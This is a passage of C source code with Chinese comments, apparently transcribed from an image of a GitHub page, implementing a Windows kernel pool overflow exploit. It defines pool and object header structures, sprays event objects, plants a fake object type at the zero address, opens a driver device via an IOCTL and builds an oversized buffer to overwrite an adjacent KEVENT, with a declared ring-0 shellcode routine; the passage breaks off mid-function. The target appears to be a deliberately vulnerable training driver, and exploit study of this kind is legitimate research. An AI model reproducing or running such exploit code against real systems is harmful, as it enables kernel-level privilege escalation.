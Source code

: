 ```
    DWORD PointerCount;
    DWORD HandleCount;
    DWORD Lock;
    UCHAR TypeIndex;
    UCHAR TraceFlags;
    UCHAR InfoMask;
    UCHAR Flags;
    DWORD ObjectCreateInfo;
    DWORD SecurityDescriptor;
    KEVENT_BODY Body;
}OBJECT_HEADER;
 
typedef struct _KEVENT
{
    POOL_HEADER PoolHeader;
    OBJECT_HEADER_QUOTA_INFO ObjectQuotaHeader;
    OBJECT_HEADER ObjectHeader;
}KEVENT, *PKEVENT;
#pragma pack()
 
HANDLE g_hEvent[EVENT_NUMBER + 5];       // 保存连续分配的事件对象
bool g_bIsExecute = false;           // 判断shellcode是否执行
 
void AllocateEvent();      // 申请事件对象
bool SetZeroMemory();      // 向0地址写入构造的对象类型
NTSTATUS Ring0ShellCode(ULONG InformationClass, ULONG BufferSize, PVOID Buffer, PULONG ReturnedLength);
void ShowError(PCHAR msg, DWORD ErrorCode);
 
 
int main()
{
    HANDLE hDevice = NULL;
    DWORD dwReturnLength = 0;
    CONST DWORD dwIoCtl = 0x222003 + 3 * 4;
 
    AllocateEvent();
 
    if (!SetZeroMemory())
    {
        goto exit;
    }
 
    // 打开驱动设备
    hDevice = CreateFile(LINK_NAME,
                GENERIC_READ | GENERIC_WRITE,
                0,
                NULL,
                OPEN_EXISTING,
                FILE_ATTRIBUTE_NORMAL,
                0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        ShowError("CreateFile", GetLastError());
        goto exit;
    }
 
    char szInput[INPUT_BUFFER_LENGTH + EVENT_SIZE] = { 0 };
 
    // 填充分配的0x1F8大小的内存
    memset(szInput, 'A', INPUT_BUFFER_LENGTH);
 
    // 构造覆盖随后的KEVENT对象
```